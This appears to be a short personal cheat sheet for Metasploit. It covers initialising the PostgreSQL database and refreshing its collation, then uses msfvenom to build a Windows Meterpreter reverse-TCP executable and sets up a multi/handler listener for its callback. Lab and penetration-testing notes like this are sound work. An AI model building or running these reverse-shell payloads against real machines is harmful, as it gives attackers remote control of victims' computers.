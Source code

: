 DB
--- 

__msf db init:__  
>
> sudo systemctl enable postgresql  
> sudo systemctl start postgresql  
> sudo msfdb init  
>
> msfconsole -q  
> `msf > db_status`

__upd msf pg collation:__  
>
> sudo -u postgres psql  
> `# \l`  
> `# \c msf`  
> `# REINDEX DATABASE msf;`  
> `# ALTER DATABASE msf REFRESH COLLATION VERSION;`  
> `# \q`  

MTR
---

https://docs.rapid7.com/metasploit/use-meterpreter-locally-without-an-exploit/

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 --format=exe > _mtr100.exe  

> msfconsole -q  
>
> `msf > use exploit/multi/handler`    
>
> `msf > set PAYLOAD windows/meterpreter/reverse_tcp`  
> `msf > set LHOST 192.168.0.100`    
> `msf > set LPORT 4444`    
> `msf > set ExitOnSession false`    
> `msf > exploit -j`

---

  